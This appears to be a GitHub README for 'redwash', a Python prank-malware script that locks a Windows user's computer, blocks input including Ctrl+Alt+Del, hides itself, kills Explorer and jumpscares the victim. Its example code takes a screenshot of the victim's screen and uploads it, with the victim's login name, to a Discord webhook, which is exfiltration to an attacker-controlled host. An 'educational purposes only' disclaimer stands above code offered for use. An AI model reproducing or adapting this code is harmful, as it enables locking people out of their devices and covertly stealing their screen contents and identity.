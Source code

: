 # redwash
Created in December 2021 -- Last Modified 12/15/2021

A Python (for Windows) troll script that locks the user's computer and jumpscares them. I made this as a proof-of-concept that Windows gives executables an unusual amount of freedom over the device and is pretty insecure.
This program __does not require UAC (Run as administrator)__.

# ⚠️ This code is provided for educational purposes only. I am not liable for any misuse of this script such as using it to collect user data for malicious intent.

Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)

![image](redwashed_pc.png)

## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```
